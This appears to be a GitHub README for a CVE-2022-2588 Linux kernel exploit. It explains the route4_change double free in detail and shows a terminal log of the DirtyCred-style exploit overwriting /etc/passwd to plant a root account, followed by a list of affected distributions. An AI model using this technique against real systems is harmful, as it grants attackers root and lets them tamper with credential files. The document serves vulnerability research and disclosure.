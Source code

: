 # CVE-2022-2588

# The fix
The bug is fixed in Linux v5.19 by this [commit](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=9ad36309e2719a884f946678e0296be10f).

# The bug

The bug was introduced in Linux v3.17 by this [commit](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=1109c00547fc66df45b9ff923544be4c1e1bec13) back to 2014. It requires `User Namespaces` to trigger. This bug is very similar to [CVE-2021-3715](https://access.redhat.com/security/cve/cve-2021-3715), which was caused by improper operation on the `route4_filter`'s linked list. More details of CVE-2021-3715 could be found at [the blackhat talk](https://zplin.me/talks/BHEU21_trash_kernel_bug.pdf) (page 16). The following is some brief details of CVE-2022-2588.

The following shows some important code snippets of function `route4_change` for understanding CVE-2022-2588.

```c
static int route4_change(...)
{
    ...
    f = kzalloc(sizeof(struct route4_filter), GFP_KERNEL);      [0]
    ...
    // if there exists a filter with the same handler, copy some information
    if (fold) {                                                 [1]
        f->id = fold->id;
        f->iif = fold->iif;
        f->res = fold->res;
        f->handle = fold->handle;

        f->tp = fold->tp;
        f->bkt = fold->bkt;
        new = false;
    }
    
    // initialize the new filter
    err = route4_set_parms(net, tp, base, f, handle, head, tb,  [2]
                   tca[TCA_RATE], new, flags, extack);
    if (err < 0)
        goto errout;

    // insert the new filter to the list
    h = from_hash(f->handle >> 16);                             [3]
    fp = &f->bkt->ht[h];
    for (pfp = rtnl_dereference(*fp);
         (f1 = rtnl_dereference(*fp)) != NULL;
         fp = &f1->next)
        if (f->handle < f1->handle)
            break;

    tcf_block_netif_keep_dst(tp->chain->block);
    rcu_assign_pointer(f->next, f1);
    rcu_assign_pointer(*fp, f);
    
    // remove fold filter from the list if fold exists
    if (fold && fold->handle && f->handle != fold->handle) {    [4]
        th = to_hash(fold->handle);
        h = from_hash(fold->handle >> 16);
        b = rtnl_dereference(head->table[th]);
        if (b) {
            fp = &b->ht[h];
            for (pfp = rtnl_dereference(*fp); pfp;
                 fp = &pfp->next, pfp = rtnl_dereference(*fp)) {
                if (pfp == fold) {
                    rcu_assign_pointer(*fp, fold->next);  [5]// remove the old from the linked list
                    break;
                }
            }
        }
    }
...
    // free the fold filter if it exists                         [6]
    if (fold) {
        tcf_unbind_filter(tp, &fold->res);
        tcf_exts_get_net(&fold->exts);
        tcf_queue_work(&fold->rwork, route4_delete_filter_work);
    }
```

The function is implemented to initialize/replace `route4_filter` object. The filter uses `handle` as an unique id to distinguish between each filter. If there exists a handle that has been initialized before (i.e. the `fold` variable is not null), it will update the filter by removing the old filter and adding a new filter, otherwise, it will just add a new filter. 

In [0], kernel allocate the `route4_filter` object. In [1], if fold is not empty, which means there exists a filter with the same handle, it will copy some information to the new filter and initialize the new filter in [2], then insert the new filter to the list in [3]. If the old filter exists, it gets removed from list in [4] and gets freed in [6].

The bug happens in [4], which checks whether there exists an old filter to be removed. The condition ensures that the handle shouldn't be zero and it should match with the new filter's handle. This condition doesn't align with the condition of freeing the filter in [6], which only checks if the old filter exists. Therefore, if users create a filter whose handle is 0, then trigger the replacement of it, the filter will not be unlinked in [4] but gets freed in [6] since their condition isn't the same.

# The exploitation

Since this bug is similar to CVE-2021-3715, their primitives are nearly the same. Readers could refer to the [the blackhat talk](https://zplin.me/talks/BHEU21_trash_kernel_bug.pdf) for more detailed description of primitives. This write-up shows the exploitation with the idea of [DirtyCred](https://zplin.me/papers/DirtyCred-BH22-Zhenpeng.pdf).

Since the freed `fold` is still on the linked list after triggering the bug, we could free the `fold` once again, which eventually will cause a double free on the `route4_filer` object and `route4_filter->exts.action` object if `CONFIG_NET_CLS_ACT` is enabled.

The exploit codes utilize those two double-free capabilities to demonstrate the attack on [task credentials](https://www.kernel.org/doc/Documentation/security/credentials.txt) (utilizing kmalloc-192 double free, to be coming) and [open file credentials](https://www.kernel.org/doc/Documentation/security/credentials.txt) (utilizing kmalloc-256 double free).

## Attacking file credential

Following the idea of [DirtyCred](https://zplin.me/papers/DirtyCred-BH22-Zhenpeng.pdf), the exploit code swaps the file credential after the permission checks, so we could write any content to files with read permission. Ideally, the code could work across all kernel versions affected by the bug. It is noted that in order to make sure the code will work on older kernels where `msg_msg` is isolated in `kmalloc-rcl-*`, the exploit uses a different spray object.

```bash
[zip@localhost ~]$ ./exp_file
self path /home/zip/./exp_file
prepare done
Old limits -> soft limit= 14096          hard limit= 14096
starting exploit, num of cores: 32
defrag done
spray 256 done
freed the filter object
256 freed done
double free done
spraying files
found overlap, id : 257, 1061
start slow write
closed overlap
got cmd, start spraying /etc/passwd
spray done
write done, spent 1.621078 s
should be after the slow write
succeed
[zip@localhost ~]$ head -n 4 /etc/passwd
user:$1$user$k8sntSoh7jhsc6lwspjsU.:0:0:/root/root:/bin/bash
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
[zip@localhost ~]$ su user # the password is user
Password:
sh-4.4# id
uid=0(user) gid=0(root) groups=0(root)
```

The exploit was written to work on as many distros as possible. It was confirmed to be working on:

* CentOS 8/Stream (4.18.0-80.el8.x86_64 ~ xxx)
* Debian 11 (5.10.0-8-amd64 ~ xxx)
* Fedora 33 (5.8.15-301.fc33.x86_64 ~ xxx)
* Manjaro 18 (xxx ~ xxx)
* RHEL 8 (4.18.0-80.el8.x86_64 ~ xxx)
* Ubuntu 17 (4.10.0-19-generic ~ xxx)
* Ubuntu 18 (xxx ~ xxx)
* Ubuntu 19 (5.0.0-38-generic ~ xxx)
* Ubuntu 20 (xxx ~ xxx)

